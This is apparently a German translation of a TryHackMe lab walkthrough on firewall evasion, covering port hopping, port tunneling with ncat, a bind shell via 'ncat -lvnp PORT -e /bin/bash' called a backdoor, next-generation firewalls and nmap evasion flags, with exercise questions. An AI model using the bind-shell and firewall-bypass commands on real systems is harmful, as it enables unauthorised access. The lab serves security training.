**Port-Hopping** ist eine Technik, bei der eine Anwendung von einem Port zum anderen wechselt, bis sie eine Verbindung herstellen und aufrechterhalten kann. Mit anderen Worten, die Anwendung versucht verschiedene Ports, bis sie erfolgreich eine Verbindung herstellen kann. Einige „legitime“ Anwendungen nutzen diese Technik, um Firewalls zu umgehen. Im folgenden Bild versuchte der Client, verschiedene Ports zu erreichen, bis er einen Zielport entdeckte, der nicht von der Firewall blockiert wurde.  


Es gibt eine weitere Art des Port-Hoppings, bei der die Anwendung eine Verbindung auf einem Port herstellt und einige Daten überträgt. Nach einer Weile wird eine neue Verbindung auf einem anderen Port hergestellt (d.h. es wird zu einem anderen Port gewechselt) und die Datenübertragung wird fortgesetzt. Der Zweck dieser Technik ist es, es dem blauen Team erschwert zu machen, den gesamten übertragenen Verkehr zu erkennen und nachzuverfolgen.

Auf der AttackBox können Sie den Befehl `ncat -lvnp PORT_NUMBER` verwenden, um auf einem bestimmten TCP-Port zu lauschen.

- `-l` lauscht auf eingehende Verbindungen
- `-v` liefert detaillierte Informationen (optional)
- `-n` löst keine Hostnamen über DNS auf (optional)
- `-p` gibt die zu verwendende Portnummer an

Beispielsweise können Sie den Befehl `ncat -lvnp 1025` auf der AttackBox ausführen, um auf TCP-Port 1025 zu lauschen, wie im folgenden Terminal-Auszug gezeigt.
```shell
pentester@TryHackMe$ ncat -lvnp 1025
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1025
Ncat: Listening on 0.0.0.0:1025
```

Wir möchten testen, ob die Zielmaschine eine Verbindung zur AttackBox über TCP-Port 1025 herstellen kann. Indem Sie zu `http://MACHINE_IP:8080` navigieren, sehen Sie eine Webseite, die es Ihnen ermöglicht, Befehle auf der Zielmaschine auszuführen. Beachten Sie, dass Sie in einem echten Szenario möglicherweise einen verwundbaren Dienst ausnutzen, der Remote Code Execution (RCE) ermöglicht, oder ein falsch konfiguriertes System verwenden, um den von Ihnen gewünschten Code auszuführen.

In diesem Labor können Sie einfach einen Linux-Befehl ausführen, indem Sie ihn im bereitgestellten Formular unter `http://MACHINE_IP:8080` eingeben. Wir können Netcat verwenden, um eine Verbindung zum Zielport herzustellen, indem wir den Befehl `ncat IP_ADDRESS PORT_NUMBER` ausführen. Beispielsweise können wir `ncat ATTACKBOX_IP 1024` ausführen, um eine Verbindung zur AttackBox über TCP-Port 1024 herzustellen. Wir möchten überprüfen, ob die Firewall so konfiguriert ist, dass Verbindungen erlaubt werden. Wenn die Verbindung von der Maschine mit der IP-Adresse `MACHINE_IP` die Firewall passieren kann, werden wir im Terminal der AttackBox über die erfolgreiche Verbindung benachrichtigt, wie im folgenden Beispiel gezeigt.
```shell
pentester@TryHackMe$ ncat -lvnp 1025
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1025
Ncat: Listening on 0.0.0.0:1025
Ncat: Connection from 10.10.30.130.
Ncat: Connection from 10.10.30.130:51292.
```

## Fragen:
Verwenden Sie diese einfache Technik, um herauszufinden, welcher der folgenden Ziel-TCP-Ports von dem geschützten System aus erreichbar ist:

- 21
- 23
- 25
- 26
- 27

```

```

# Task 7 - Evasion Using Port Tunneling
### Port Tunneling

Port Tunneling, auch bekannt als Portweiterleitung oder Port-Mapping, ist eine Technik, bei der Pakete, die an einen Zielport gesendet werden, an einen anderen Zielport weitergeleitet werden. Einfach gesagt, werden Pakete, die an Port 80 eines Systems gesendet werden, an Port 8080 eines anderen Systems weitergeleitet.

### Port Tunneling mit `ncat`

Stellen Sie sich vor, Sie haben einen Server hinter einer Firewall, auf den Sie von außen nicht zugreifen können. Allerdings haben Sie festgestellt, dass die Firewall bestimmte Ports nicht blockiert. Sie können dieses Wissen nutzen, indem Sie den Datenverkehr über einen anderen Port tunneln.

Angenommen, wir haben einen SMTP-Server, der auf Port 25 hört, aber wir können keine Verbindung zum SMTP-Server herstellen, da die Firewall Pakete an Port 25 blockiert. Wir stellen fest, dass Pakete an Port 443 nicht blockiert werden, also entscheiden wir uns, diese Gelegenheit zu nutzen und unsere Pakete an Port 443 zu senden. Nachdem die Pakete die Firewall passiert haben, leiten wir sie an Port 25 weiter. Angenommen, wir können auf einem der Systeme hinter der Firewall Befehle ausführen. Wir können dieses System verwenden, um unsere Pakete zum SMTP-Server weiterzuleiten, indem wir folgenden Befehl verwenden:

```
ncat -lvnp 443 -c "ncat TARGET_SERVER 25"
```

Der Befehl `ncat` verwendet folgende Optionen:

- `-lvnp 443`: Hört auf TCP-Port 443. Da die Portnummer kleiner als 1024 ist, müssen Sie `ncat` in diesem Fall als Root ausführen.
- `-c` oder `--sh-exec`: Führt den angegebenen Befehl über `/bin/sh` aus.
- `"ncat TARGET_SERVER 25"`: Stellt eine Verbindung zum Zielserver an Port 25 her.

Das Ergebnis ist, dass `ncat` auf Port 443 hört, aber alle Pakete an Port 25 auf dem Zielserver weiterleitet. Da die Firewall in diesem Fall Port 25 blockiert und Port 443 zulässt, ist Port-Tunneling eine effiziente Methode, um die Firewall zu umgehen.  


Wir haben einen Webserver, der auf den HTTP-Port 80 hört. Die Firewall blockiert den Verkehr zu Port 80 aus dem nicht vertrauenswürdigen Netzwerk; wir haben jedoch festgestellt, dass der Verkehr zu TCP-Port 8008 nicht blockiert wird. Wir verwenden weiterhin das Web-Formular aus Aufgabe 6, um den ncat-Listener einzurichten, der die empfangenen Pakete an den weitergeleiteten Port weiterleitet. Rufen Sie mit Port-Tunneling den Webserver auf und rufen die Flag ab.  
```

```

# Task 8 - Evasion Using Non-Standard Ports
`ncat -lvnp PORT_NUMBER -e /bin/bash` erstellt eine Hintertür über die angegebene Portnummer, die es Ihnen ermöglicht, mit der Bash-Shell zu interagieren.

- `-e` oder `--exec` führt den angegebenen Befehl aus
- `/bin/bash` ist der Ort des Befehls, den wir ausführen möchten

Auf dem AttackBox können wir `ncat MACHINE_IP PORT_NUMBER` ausführen, um eine Verbindung zum Zielrechner herzustellen und mit dessen Shell zu interagieren.

Angenommen, wir haben eine Firewall, reicht es nicht aus, `ncat` zu verwenden, um eine Hintertür zu erstellen, es sei denn, wir können eine Verbindung zur hörenden Portnummer herstellen. Außerdem können wir, es sei denn, wir führen ncat als privilegierter Benutzer, `root` oder mit `sudo` aus, keine Portnummern unter 1024 verwenden.

## Fragen:
Wir verwenden weiterhin das Webformular aus Aufgabe 6, um den ncat-Listener einzurichten. Da die Firewall keine Pakete zu Zielport 8081 blockiert, verwenden Sie `ncat`, um auf eingehende Verbindungen zu hören und die Bash-Shell auszuführen. Verwenden Sie den AttackBox, um eine Verbindung zur hörenden Shell herzustellen. Wie lautet der Benutzername, mit dem Sie angemeldet sind?
```

```

# Task 9 - Next-Generation Firewalls
Traditionelle Firewalls, wie paketfilternde Firewalls, erwarten, dass eine Portnummer das verwendete Protokoll bestimmt und die Anwendung identifiziert. Wenn Sie daher eine Anwendung blockieren möchten, müssen Sie einen Port blockieren. Leider ist dies nicht mehr gültig, da viele Anwendungen sich über Ports tarnen, die für andere Anwendungen zugewiesen sind. Mit anderen Worten, eine Portnummer reicht nicht mehr aus, um die verwendete Anwendung zuverlässig zu identifizieren. Dazu kommt die weitverbreitete Nutzung von Verschlüsselung, z.B. via SSL/TLS.

Next-Generation Firewalls (NGFW) sind so konzipiert, dass sie die neuen Herausforderungen moderner Unternehmen bewältigen können. Einige der Fähigkeiten von NGFW umfassen:

- Integration einer Firewall und eines Echtzeit-Eindringungsschutzsystems (IPS). Es kann jede erkannte Bedrohung in Echtzeit stoppen.
- Identifikation von Benutzern und ihrem Datenverkehr. Es kann die Sicherheitsrichtlinie pro Benutzer oder pro Gruppe durchsetzen.
- Identifikation von Anwendungen und Protokollen unabhängig von der verwendeten Portnummer.
- Identifikation der übertragenen Inhalte. Es kann die Sicherheitsrichtlinie durchsetzen, wenn Verstöße gegen Inhalte festgestellt werden.
- Fähigkeit zur Entschlüsselung von SSL/TLS- und SSH-Verkehr. Zum Beispiel schränkt es ausweichende Techniken ein, die auf Verschlüsselung basieren, um bösartige Dateien zu übertragen.

Eine ordnungsgemäß konfigurierte und eingesetzte NGFW macht viele Angriffe nutzlos.

## Fragen:
Was ist die Nummer der höchsten OSI-Schicht, die eine NGFW verarbeiten kann?
```

```

# Task 10 - Conclusion
Dieser Raum behandelte die verschiedenen Arten von Firewalls und die gängigen Umgehungstechniken. Das korrekte Verständnis der Einschränkungen der Ziel-Firewall-Technologie hilft Ihnen dabei, geeignete Firewall-Umgehungsverfahren auszuwählen und zu konstruieren. Dieser Raum demonstrierte verschiedene Umgehungstechniken mit ncat; jedoch können die gleichen Ergebnisse auch mit einem anderen Werkzeug wie socat erzielt werden. Es wird empfohlen, sich den Raum "What the Shell?" anzusehen.

Die folgende Tabelle fasst die in diesem Raum behandelten Nmap-Argumente zusammen.

| Umgehungsansatz | Nmap-Argument |
|-----------------|----------------|
| Einen Scan mit Decoys verstecken | -D DECOY1_IP1,DECOY_IP2,ME |
| Verbindungen über einen HTTP/SOCKS4-Proxy weiterleiten | --proxies PROXY_URL |
| Quell-MAC-Adresse fälschen | --spoof-mac MAC_ADDRESS |
| Quell-IP-Adresse fälschen | -S IP_ADDRESS |
| Eine bestimmte Quellportnummer verwenden | -g PORT_NUM oder --source-port PORT_NUM |
| IP-Daten in 8 Bytes fragmentieren | -f |
| IP-Daten in 16 Bytes fragmentieren | -ff |
| Pakete mit gegebener MTU fragmentieren | --mtu VALUE |
| Paketlänge festlegen | --data-length NUM |
| IP-Zeit-zu-leben-Feld (TTL) festlegen | --ttl VALUE |
| Pakete mit spezifischen IP-Optionen senden | --ip-options OPTIONS |
| Pakete mit falscher TCP/UDP-Prüfsumme senden | --badsum |

Diese Tabelle bietet eine schnelle Übersicht der Nmap-Argumente und ihrer Umgehungsansätze, die in diesem Raum behandelt wurden.
